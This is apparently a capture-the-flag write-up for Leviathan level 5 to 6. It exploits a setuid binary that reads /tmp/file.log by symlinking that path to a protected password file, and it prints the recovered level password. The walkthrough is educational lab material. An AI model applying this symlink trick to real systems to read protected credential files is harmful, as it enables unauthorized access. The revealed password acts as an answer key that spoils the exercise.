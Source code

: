 Leviathan Level 5 → Level 6
===========================

Level Goal
----------

There is no information for this level, intentionally.

Solution
========

There's no hint text or anything else for this level. So let's look around what we can find in the home directory:

```
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

Let's see what binary file **leviathan5** does when we execute it:

```
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

It obviously expects a file named **/tmp/file.log** in order to display its content. Since we want to get the contents of **/etc/leviathan_pass/leviathan6** in order to get the password for the next level, we create a symlink named **/tmp/file.log** which points to **/etc/leviathan_pass/leviathan6**:

```
leviathan5@leviathan:$ cd /tmp
leviathan5@leviathan:/tmp$ ln -s /etc/leviathan_pass/leviathan6 file.log
leviathan5@leviathan:/tmp$ cd
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

That was easy! :-)
